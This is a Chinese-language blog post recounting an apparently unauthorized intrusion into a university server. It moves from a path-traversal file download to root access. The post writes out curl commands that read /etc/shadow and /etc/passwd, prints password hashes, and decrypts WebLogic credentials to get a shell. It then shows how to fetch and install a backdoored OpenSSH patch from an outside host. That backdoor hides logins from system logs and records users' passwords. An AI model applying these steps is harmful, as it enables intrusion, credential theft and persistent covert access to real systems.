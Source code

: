 ```yaml
---
layout: post
title: "从任意文件下载到系统 root 权限"
description: "Hacking"
headline: 
modified: 2015-10-21
category: Hacking
tags: [Hacking]
imagefeature: 
mathjax: 
chart: 
author: Ricter
comments: true
featured: true
---
```


* 目录
{:toc}

# [从任意文件下载到系统 root 权限]()


其实蛮没有技术含量。我在两年前遇到这个任意文件下载，却不知道该怎么做，到现在渗透经验足了，拿下了，然后记录一下这一个过程，就这样qwq。

## 0x01

目标站是学校内的一个某系统，存在一个 root 权限的任意文件下载漏洞。年轻的时候我用 AWVS 扫到，很开心。但是我只知道下载 `/etc/passwd` 和 `/etc/shadow`，然后去 cmd5 破解了个密码。

     owo &gt; ~ curl "http://xxxxx.cqupt.edu.cn/index.do?method=download&amp;fileName=../../../../../../../../../../../../../../../../../../etc/shadow" | grep "\$1"
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  1450    0  1450    0     0   167k      0 --:--:-- --:--:-- --:--:--  177k
    root:$1$skHsra.H$231VnTWRAH5IZu/ZprShG1:15355:0:99999:7:::
    noc:$1$VfzOW6qf$5bFZHbF9kffKjWNNRRS.t1:15050:0:99999:7:::
    upload:$1$6l1DPvdr$9n35rMlJ.Y0K9T7LTTt4e.:15869:0:99999:7:::
    save:$1$MtVRP4E2$VR2c3KpZzxMXyrtbx5PKC1:15041:0:99999:7:::
    cisco:$1$imx62ClO$JoeFAGinKdzZFMZ1qmam20:15050:0:99999:7:::
    log:$1$G0ukagUJ$WGon1ynxgRMKxY1mY6HUa.:15105:0:99999:7:::
    `

    得到了 log 的密码是 log，save 的密码是 save。但是，可以破解密码都不能登录。

    ` owo &gt; ~ curl "http://xxxxx.cqupt.edu.cn/index.do?method=download&amp;fileName=../../../../../../../../../../../../../../../../../../etc/passwd" | grep bash
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  2061    0  2061    0     0   228k      0 --:--:-- --:--:-- --:--:--  251k
    root:x:0:0:root:/root:/bin/bash
    weblogic:x:501:501::/home/weblogic:/bin/bash
    cisco:x:504:504::/home/cisco:/bin/bash
    `

    当时只到这里，啊，不知道怎么做了，GG，该干嘛干嘛。还是太年轻qwq。

    其实还有很多东西可以下载，比如 `/root/.bash_history`，看了一遍，拿到了 Web 目录：`/home/web/jsp/bea/user_projects/domains/xxx`。

    这个站其实是 weblogic 搭建的，比较蛋碎的是，我又不知道 weblogic 的密码，也不知道存放密码的路径。 

    #### 题外话

    其实如果经验足够的话，应该可以知道密钥和密码文件存放的路径。

    密钥路径：/home/web/jsp/bea/user_projects/domains/DOMAIN_NAME/security/SerializedSystemIni.dat 

    密码文件路径：/home/web/jsp/bea/user_projects/domains/DOMAIN_NAME/servers/APP_NAME/security/boot.properties

    其中大部分信息都在 .bash_history 得到了，不过我还是不知道在哪，真是残念。

    #### 题外话结束

    但是我机智的用 nmap 扫了下端口，发现 FTP 是 vsftpd。vsftpd 这么 6666，没做 chroot 的情况下可以各种看目录，而且用系统帐号就能登陆上。虽然是 `/sbin/nologin/`，但是 vsftp 还是能用的。上去之后翻了下目录，找到了加密后的密码还有加密密码的密钥。

![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/4.PNG) 

    ## 0x02

    根据 [http://drops.wooyun.org/tips/349](http://drops.wooyun.org/tips/349)，可以造怎么去破解密码。里面给出的密码破解的 java 脚本依赖 weblogic 的包，我并不想在本地安装 weblogic，于是去万能的 Github 找了下，找到这个程序：[https://github.com/NetSPI/WebLogicPasswordDecryptor](https://github.com/NetSPI/WebLogicPasswordDecryptor)

    用法如下： 

    ` owo &gt; git clone https://github.com/NetSPI/WebLogicPasswordDecryptor
    Cloning into 'WebLogicPasswordDecryptor'...
    remote: Counting objects: 31, done.
    remote: Total 31 (delta 0), reused 0 (delta 0), pack-reused 31
    Unpacking objects: 100% (31/31), done.
    Checking connectivity... done.
     owo &gt; tmp cd WebLogicPasswordDecryptor/
     owo &gt; WebLogicPasswordDecryptor git:(master) javac WebLogicPasswordDecryptor.java
    WebLogicPasswordDecryptor.java:2: 警告: BASE64Decoder是内部专用 API, 可能会在未来发行版中删除
    import sun.misc.BASE64Decoder;
                   ^
    WebLogicPasswordDecryptor.java:41: 警告: BASE64Decoder是内部专用 API, 可能会在未来发行版中删除
            byte[] encryptedPassword1 = new BASE64Decoder().decodeBuffer(ciphertext);
                                            ^
    WebLogicPasswordDecryptor.java:95: 警告: BASE64Decoder是内部专用 API, 可能会在未来发行版中删除
            byte[] encryptedPassword1 = new BASE64Decoder().decodeBuffer(ciphertext);
                                            ^
    3 个警告
     pwq &gt; WebLogicPasswordDecryptor git:(master) ? java WebLogicPasswordDecryptor /tmp/SerializedSystemIni.dat "{3DES}0/rNaowFnaz32NHhiOKRmg=="
    DCaW2uXXX
     owo &gt; WebLogicPasswordDecryptor git:(master) ?
    `

    话说如果编译的时候发现缺少什么依赖包，可以去万能的 Google 搞定，我就不提了。 

    既然密码破解出来了，那就去 getshell 吧。

    ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/2.PNG)

    ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/1.PNG)

    ## 0x03

    拿到之后，并不知道密码，心里很纠结。

    因为这里的 cisco 账号也在某 mail.cqupt.edu.cn 中出现了，所以，我感觉还是要上一个比较牛逼的 backdoor。 

    问了我猫总之后，猫总推荐了我一个 openssh 的 backdoor。地址在这：[http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz](http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz) 

    首先 wget 下来，然后看一下 README 和 INSTALL。

    `[root@xxx openssh-5.9p1.patch]# ls
    INSTALL  LICENSE  openssh-5.9p1  openssh-5.9p1.tar.gz  README  sshbd5.9p1.diff  ssh_integrity_checker.sh
    [root@oa openssh-5.9p1.patch]# cat README
    Read LICENSE before redistributing
    Read INSTALL to install backdoor
    ssh_integrity_checker is tool for sysadmin to check possible OpenSSH infection

    FEATURES:
    - Isn't logged in lastlog, wtmp, utmp
    - Your IP isn't logged in /var/log/message and /var/log/secure (RHEL/CentOS)
    - Your IP isn't logged in /var/log/syslog and /var/log/auth.log (Ubuntu/Debian)
    - Record incoming/outgoing user and password for SSH login
    - Instant root access and bypass PermitRootLogin on sshd_config
    - Also support for SSH with pam enabled
    [root@oa openssh-5.9p1.patch]# cat INSTALL

    -- QUICKSTART

    wget http://mirror.corbina.net/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz
    tar zxvf openssh-5.9p1.tar.gz
    cp sshbd5.5p1.diff openssh-5.9p1/
    cd openssh-5.9p1
    patch &lt; sshbd5.9p1.diff

    modify version.h
    modify secret password and log path on includes.h
    make sure you already install zlib, openssl, kerberos5, and libpam development header file

    ./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
    make &amp;&amp; make install &amp;&amp; service ssh restart (debian/ubuntu)
    make &amp;&amp; make install &amp;&amp; service sshd restart (redhat/centos)
    [root@xxx openssh-5.9p1.patch]#
    `

    根据提示要安装一下 zlib-devel、openssl-devel、pam-devel、krb5-lib 之类的包。

    接着下载 openssh-5.9p1 的源代码，patch 掉，然后修改 `includes.h`，在 `includes.h` 的最下面。

    ![](http://7d9lm5.com1.z0.glb.clouddn.com/from-arbitrarily-file-download-to-root/3.PNG) 

    接着 `./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5`，然后 `make &amp;&amp; make install`。 

    重启 sshd 服务后，可以记录账号密码了。ssh 进来的在 `/tmp/ilog`，ssh 出去的在 `/tmp/olog`。

    `[root@xxx tmp]# cat ilog
    user:password --&gt; log:log
    user:password --&gt; log:log
    user:password --&gt; log:log
    [root@oa tmp]# cat olog
    user:password@host --&gt; root:asd@localhost
    [root@xxx tmp]#

接下来就是慢慢的等待了。

        
        

        
        
            
        
    
